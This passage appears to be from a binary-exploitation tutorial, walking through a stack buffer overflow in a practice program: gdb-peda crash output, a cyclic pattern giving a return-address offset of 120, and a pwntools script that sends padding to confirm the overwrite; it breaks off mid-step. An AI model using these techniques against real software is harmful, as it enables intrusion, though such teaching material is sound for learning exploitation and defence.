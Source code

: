 ```bash
R12: 0x401070 (<_start>:        xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:  call   0x401030 <puts@plt>
   0x4011a6 <main+71>:  mov    eax,0x0
   0x4011ab <main+76>:  leave
=> 0x4011ac <main+77>:  ret
   0x4011ad:    nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:  push   r15
   0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:        push   r14
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
```

Watching where the program crashed shows it's in `ret` instruction and return will go to `rsp`.
You can pass that string at `rsp`: `jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA`
or

```bash
gdb-peda$ pattern search $rsp
Registers contain pattern buffer:
RBP+0 found at offset: 112
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 120 - size ~80
```

Which shows offset of `120` for `rsp`.

## Confirming the offset

We can do this with python's pwntools, without that boring attach thing.

```bash
#!/usr/bin/python3
from pwn import *

p = gdb.debug('./myapp','''
set follow-fork-mode parent
''')

junk =('A'* 120 + 'B' * 24).encode()

p.sendline(junk)
p.interactive()
```

You can directly try `p = gdb.debug('./myapp')`, if gdb is following fork mode as parent already.
`interactive()` is used so that the spawned gdb windows does not kills itself when the process dies and I've time to see the registers before the process really dies.
Run that script, continue in gdb:
